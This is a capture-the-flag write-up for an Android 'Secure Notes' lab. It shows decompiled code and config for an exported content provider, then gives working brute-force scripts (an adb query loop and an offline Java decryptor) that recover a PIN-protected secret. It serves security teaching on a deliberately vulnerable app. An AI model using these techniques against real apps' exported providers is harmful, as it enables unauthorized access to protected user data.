

Welcome to the Secure Notes Challenge! This lab immerses you in the intricacies of Android content providers, challenging you to crack a PIN code protected by a content provider within an Android application. It's an excellent opportunity to explore Android's data management and security features.

### Objective

- Retrieve a PIN code from a secured content provider in an Android application.

## Detailed Overview of Android Content Providers

### Definition and Purpose

- *Content Providers*: Essential Android components managing access to structured data sets, facilitating inter-application data sharing.
- *Purpose*: Designed for data sharing across different applications, encouraging modular data management.

### How They Work

- *Data Storage and Access*: Capable of storing data in various forms like SQLite databases, web services, or files. Standardized APIs are provided for CRUD operations.
- *URI Usage*: Each content provider is identified by a unique URI, accessible via the ContentResolver class.

### Security and Access Control

- *Permissions*: Implement permissions to control who can access the data.
- *Exported vs. Non-Exported*: Determined in the Android manifest, controlling external app access to the content provider.

### Common Uses

- *Contacts Provider*: Manages user contacts.
- *Media Store*: Handles media files like images and videos.

### Best Practices

- *Security*: Vital to protect against vulnerabilities like SQL injection and unauthorized access.
- *Configuration*: Proper configuration in the manifest and implementation is key for security.

## Analysis

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest [...] package="com.mobilehackinglab.securenotes" [...] >
    <uses-sdk android:minSdkVersion="24" android:targetSdkVersion="33"/>
    [...]
    <provider android:name="com.mobilehackinglab.securenotes.SecretDataProvider" android:enabled="true" android:exported="true" android:authorities="com.mobilehackinglab.securenotes.secretprovider"/>
    <activity android:name="com.mobilehackinglab.securenotes.MainActivity" android:exported="true">
        <intent-filter>
            <action android:name="android.intent.action.MAIN"/>
            <category android:name="android.intent.category.LAUNCHER"/>
        </intent-filter>
    </activity>
[...]
```

Class: `com.mobilehackinglab.securenotes.MainActivity`

```java
private final void querySecretProvider(String pin) {
        String resultText;
        ActivityMainBinding activityMainBinding;
        Uri uri = Uri.parse("content://com.mobilehackinglab.securenotes.secretprovider");
        String selection = "pin=" + pin;
        Cursor cursor = getContentResolver().query(uri, null, selection, null, null);
        ActivityMainBinding activityMainBinding2 = null;
        if (cursor != null) {
            Cursor cursor2 = cursor.moveToFirst() ? cursor : null;
            if (cursor2 != null) {
                Integer valueOf = Integer.valueOf(cursor2.getColumnIndex("Secret"));
                int it = valueOf.intValue();
                if (!(it != -1)) {
                    valueOf = null;
                }
                if (valueOf != null) {
                    int it2 = valueOf.intValue();
                    resultText = cursor.getString(it2);
                    if (resultText == null) {
                        resultText = "[ERROR: Incorrect PIN]";
                    }
                    activityMainBinding = this.binding;
                    if (activityMainBinding != null) {
                        Intrinsics.throwUninitializedPropertyAccessException("binding");
                    } else {
                        activityMainBinding2 = activityMainBinding;
                    }
                    activityMainBinding2.resultTextView.setText(resultText);
                    if (cursor == null) {
                        cursor.close();
                        return;
                    }
                    return;
                }
            }
        }
        resultText = null;
        if (resultText == null) {
        }
        activityMainBinding = this.binding;
        if (activityMainBinding != null) {
        }
        activityMainBinding2.resultTextView.setText(resultText);
        if (cursor == null) {
        }
    }
```

Class: `com.mobilehackinglab.securenotes.SecretDataProvider`

```java
public final class SecretDataProvider extends ContentProvider {
    private byte[] encryptedSecret;
    private int iterationCount;

    private byte[] IV;
    private byte[] salt;
    
    [...]
```


```java
@Override // android.content.ContentProvider
    public boolean onCreate() {
        AssetManager assets;
        InputStream open;
        Properties properties = new Properties();
        Context context = getContext();
        if (context != null && (assets = context.getAssets()) != null && (open = assets.open("config.properties")) != null) {
            InputStream inputStream = open;
            try {
                InputStream it = inputStream;
                properties.load(it);
                byte[] decodedSecret = Base64.decode(properties.getProperty("encryptedSecret"), 0);
                Intrinsics.checkNotNullExpressionValue(decodedSecret, "decode(...)");
                this.encryptedSecret = decodedSecret;
                byte[] decodedSalt = Base64.decode(properties.getProperty("salt"), 0);
                Intrinsics.checkNotNullExpressionValue(decodedSalt, "decode(...)");
                this.salt = decodedSalt;
                byte[] decodedIV = Base64.decode(properties.getProperty("iv"), 0);
                Intrinsics.checkNotNullExpressionValue(decodedIV, "decode(...)");
                this.IV = decodedIV;
                String iterationCount = properties.getProperty("iterationCount");
                Intrinsics.checkNotNullExpressionValue(iterationCount, "getProperty(...)");
                this.iterationCount = Integer.parseInt(iterationCount);
                Unit unit = Unit.INSTANCE;
                Closeable.closeFinally(inputStream, null);
                return true;
            } catch (Throwable th) {
                try {
                    throw th;
                } catch (Throwable th2) {
                    Closeable.closeFinally(inputStream, th);
                    throw th2;
                }
            }
        }
        return true;
    }
```

```java
@Override // android.content.ContentProvider
    public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
        Object m191constructorimpl;
        Intrinsics.checkNotNullParameter(uri, "uri");
        MatrixCursor matrixCursor = null;
        if (selection == null || !StringsKt.startsWith$default(selection, "pin=", false, 2, (Object) null)) {
            return null;
        }
        String removePrefix = StringsKt.removePrefix(selection, (CharSequence) "pin=");
        try {
            StringCompanionObject stringCompanionObject = StringCompanionObject.INSTANCE;
            String format = String.format("%04d", Arrays.copyOf(new Object[]{Integer.valueOf(Integer.parseInt(removePrefix))}, 1));
            Intrinsics.checkNotNullExpressionValue(format, "format(format, *args)");
            try {
                Result.Companion companion = Result.Companion;
                SecretDataProvider $this$query_u24lambda_u241 = this;
                m191constructorimpl = Result.m191constructorimpl($this$query_u24lambda_u241.decryptSecret(format));
            } catch (Throwable th) {
                Result.Companion companion2 = Result.Companion;
                m191constructorimpl = Result.m191constructorimpl(ResultKt.createFailure(th));
            }
            if (Result.m197isFailureimpl(m191constructorimpl)) {
                m191constructorimpl = null;
            }
            String secret = (String) m191constructorimpl;
            if (secret != null) {
                MatrixCursor $this$query_u24lambda_u243_u24lambda_u242 = new MatrixCursor(new String[]{"Secret"});
                $this$query_u24lambda_u243_u24lambda_u242.addRow(new String[]{secret});
                matrixCursor = $this$query_u24lambda_u243_u24lambda_u242;
            }
            return matrixCursor;
        } catch (NumberFormatException e) {
            return null;
        }
    }
```

```java
private final String decryptSecret(String pin) {
        try {
            Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
            SecretKeySpec secretKeySpec = new SecretKeySpec(generateKeyFromPin(pin), "AES");
            byte[] bArr = this.IV;
            if (bArr == null) {
                Intrinsics.throwUninitializedPropertyAccessException("iv");
                bArr = null;
            }
            IvParameterSpec ivParameterSpec = new IvParameterSpec(bArr);
            cipher.init(2, secretKeySpec, ivParameterSpec);
            byte[] bArr2 = this.encryptedSecret;
            if (bArr2 == null) {
                Intrinsics.throwUninitializedPropertyAccessException("encryptedSecret");
                bArr2 = null;
            }
            byte[] decryptedBytes = cipher.doFinal(bArr2);
            Intrinsics.checkNotNull(decryptedBytes);
            return new String(decryptedBytes, Charsets.UTF_8);
        } catch (Exception e) {
            return null;
        }
    }
```

```java
private final byte[] generateKeyFromPin(String pin) {
        char[] charArray = pin.toCharArray();
        Intrinsics.checkNotNullExpressionValue(charArray, "this as java.lang.String).toCharArray()");
        byte[] bArr = this.salt;
        if (bArr == null) {
            Intrinsics.throwUninitializedPropertyAccessException("salt");
            bArr = null;
        }
        PBEKeySpec keySpec = new PBEKeySpec(charArray, bArr, this.iterationCount, 256);
        SecretKeyFactory keyFactory = SecretKeyFactory.getInstance("PBKDF2WithHmacSHA1");
        byte[] encoded = keyFactory.generateSecret(keySpec).getEncoded();
        Intrinsics.checkNotNullExpressionValue(encoded, "getEncoded(...)");
        return encoded;
    }
```

File: `assets/config.properties`

```
encryptedSecret=bTjBHijMAVQX+CoyFbDPJXRUSHcTyzGaie3OgVqvK5w=
salt=m2UvPXkvte7fygEeMr0WUg==
iv=L15Je6YfY5owgIckR9R3DQ==
iterationCount=10000
```

## Bruteforce Solution

### Dynamic: adb

We can emulate an application sending a content query using adb as follows:

```bash
for i in `seq 1000 10000`; do echo -n "$i : " && adb shell content query --uri "content://com.mobilehackinglab.securenotes.secretprovider" --projection "Secret" --where "pin=$i" ; done
```

Results:

```
2578 : No result found.
2579 : No result found.
2580 : Row: 0 Secret=CTF{D1d_y0u_gu3ss_1t!1?}
2581 : No result found.
2582 : No result found.
```

### Static: Java

```java
import java.security.NoSuchAlgorithmException;
import java.security.spec.InvalidKeySpecException;
import javax.crypto.Cipher;
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.PBEKeySpec;
import javax.crypto.spec.SecretKeySpec;
import java.util.Base64;
import java.nio.charset.StandardCharsets;
import javax.crypto.NoSuchPaddingException;
import java.security.InvalidKeyException;
import java.security.InvalidAlgorithmParameterException;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.BadPaddingException;

public class MyClass {
    
    private byte[] iv; 
    private byte[] salt;
    private byte[] encryptedSecret;
    
    public static void main(String args[]) {
		for (int i = 0; i < 10000; i++) {
        	try {
            	MyClass c = new MyClass();
                String decryptedSecret = c.decryptSecret(String.format("%04d", i));
                System.out.println(String.format("%04d", i) + " Decrypted Secret: " + decryptedSecret);
            } catch (Exception e) {	}
    	}
	}
    
    /*
    encryptedSecret=bTjBHijMAVQX+CoyFbDPJXRUSHcTyzGaie3OgVqvK5w=
    salt=m2UvPXkvte7fygEeMr0WUg==
    iv=L15Je6YfY5owgIckR9R3DQ==
    iterationCount=10000
    */
    
    public MyClass() throws NoSuchAlgorithmException, InvalidKeySpecException {
        this.iv = Base64.getDecoder().decode("L15Je6YfY5owgIckR9R3DQ==");
        this.salt  = Base64.getDecoder().decode("m2UvPXkvte7fygEeMr0WUg==");
        this.encryptedSecret  = Base64.getDecoder().decode("bTjBHijMAVQX+CoyFbDPJXRUSHcTyzGaie3OgVqvK5w=");
    }
    
    private String decryptSecret(String pin) throws NoSuchAlgorithmException, InvalidKeySpecException, NoSuchPaddingException, InvalidKeyException, InvalidAlgorithmParameterException, IllegalBlockSizeException, BadPaddingException {
        Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        SecretKeySpec secretKeySpec = new SecretKeySpec(generateKeyFromPin(pin), "AES");
        IvParameterSpec ivParameterSpec = new IvParameterSpec(this.iv);
        cipher.init(Cipher.DECRYPT_MODE, secretKeySpec, ivParameterSpec);
        return new String(cipher.doFinal(this.encryptedSecret), StandardCharsets.UTF_8);
    }
    
    private byte[] generateKeyFromPin(String pin) throws NoSuchAlgorithmException, InvalidKeySpecException {
        PBEKeySpec keySpec = new PBEKeySpec(pin.toCharArray(), this.salt, 10000, 256);
        SecretKeyFactory keyFactory = SecretKeyFactory.getInstance("PBKDF2WithHmacSHA1");
        return keyFactory.generateSecret(keySpec).getEncoded();
    }
}
```

```bash
$ javac MyClass.java && java MyClass
```

